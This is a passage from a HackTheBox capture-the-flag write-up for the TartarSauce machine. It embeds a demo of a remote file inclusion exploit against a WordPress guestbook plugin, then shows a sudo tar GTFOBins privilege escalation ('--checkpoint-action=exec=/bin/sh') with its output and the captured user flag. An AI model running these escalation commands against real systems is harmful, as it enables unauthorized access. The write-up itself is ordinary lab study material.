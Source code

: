 		7. [Stabalize shell](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/)
3. Demo - WP Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion     
	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="wp_exploit"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/TartarSauce/images/wp_exploit.cast', document.getElementById('wp_exploit'), { 
		loop: true,
		autoPlay: true
			});
	</script>
	</body>
	</html>

# Privilege Escalation - 1

## Onuma - Via SUDO GTFOBIN
1. Check sudo access for user `www-data`
	```
	www-data@TartarSauce:/var/www/html/webservices/monstra-3.0.4$ sudo -l
	Matching Defaults entries for www-data on TartarSauce:
	    env_reset, mail_badpass,
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User www-data may run the following commands on TartarSauce:
	    (onuma) NOPASSWD: /bin/tar
	www-data@TartarSauce:/var/www/html/
	```
	- `/bin/tar` - `tar` has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/tar/#sudo)
2. Using `tar` to privilege escalate
	1. How does it work?
		1. If `tar` is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
	2. Privilege escalate
		```
		www-data@TartarSauce:/$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
		tar: Removing leading `/' from member names
		$ id;whoami
		uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
		onuma
		$ 
		```
		![](Pasted%20image%2020220907053102.png)
3. User Flag
	```
	onuma@TartarSauce:~$ cat user.txt 
	1c4c8a145480c441d6bb10c866d967b8
	```
